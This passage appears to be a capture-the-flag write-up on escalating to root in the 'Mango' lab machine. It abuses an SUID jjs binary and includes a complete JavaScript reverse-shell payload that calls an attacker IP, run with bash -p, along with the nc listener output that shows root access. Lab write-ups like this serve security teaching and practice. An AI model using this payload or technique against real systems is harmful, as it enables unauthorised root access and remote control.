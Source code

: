 ### Privilege Escalation to root

Using the linpeas script, we noticed that there is an SUID binary at /usr/lib/jvm/java-11-openjdk-amd64/bin/jjs, that may be worth looking into. 

```
admin@mango:/tmp$ ls -la /usr/lib/jvm/java-11-openjdk-amd64/bin/jjs
-rwsr-sr-- 1 root admin 10352 Jul 18  2019 /usr/lib/jvm/java-11-openjdk-amd64/bin/jjs
```
Apart from that, we also discover /usr/lib/snapd/snap-confine which may be vulnerable to CVE-2019-7304. However, checking the version of snap shows that it is 2.41 which means it is not vulnerable to CVE-2019-7304.

```
admin@mango:/tmp$ snap version
snap    2.41
snapd   2.41
series  16
ubuntu  18.04
kernel  4.15.0-64-generic
```

From [GTFO Bins](https://gtfobins.github.io/gtfobins/jjs/), we are able to spawn a reverse shell using jjs. However, we notice that using the payload specified on the page is unable to create a root shell. 

In order to create a root shell, we have to modify the javascript script to execute /bin/bash -p instead of /bin/bash -i. The -p option is required to enable the bash to keep the effective userid (root) after it is /bin/bash is executed so that we will have root privileges to view the root file. 

```
var ProcessBuilder = Java.type("java.lang.ProcessBuilder");
var p=new ProcessBuilder("/bin/bash", "-p").redirectErrorStream(true).start();
var Socket = Java.type("java.net.Socket");
var s=new Socket("10.10.16.6",4000);
var pi=p.getInputStream(),pe=p.getErrorStream(),si=s.getInputStream();
var po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){ while(pi.available()>0)so.write(pi.read()); while(pe.available()>0)so.write(pe.read()); while(si.available()>0)po.write(si.read()); so.flush();po.flush(); Java.type("java.lang.Thread").sleep(50); try {p.exitValue();break;}catch (e){}};p.destroy();s.close();
```

Lastly, we will execute the script using jjs

```
admin@mango:/tmp$ jjs script.js
Warning: The jjs tool is planned to be removed from a future JDK release
```

### Obtaining root flag

```
┌──(kali㉿kali)-[~]
└─$ nc -nlvp 4000
listening on [any] 4000 ...
connect to [10.10.16.6] from (UNKNOWN) [10.10.10.162] 43564
id      
uid=4000000000(admin) gid=1001(admin) euid=0(root) groups=1001(admin)
cat /root/root.txt
<Redacted root flag>
```

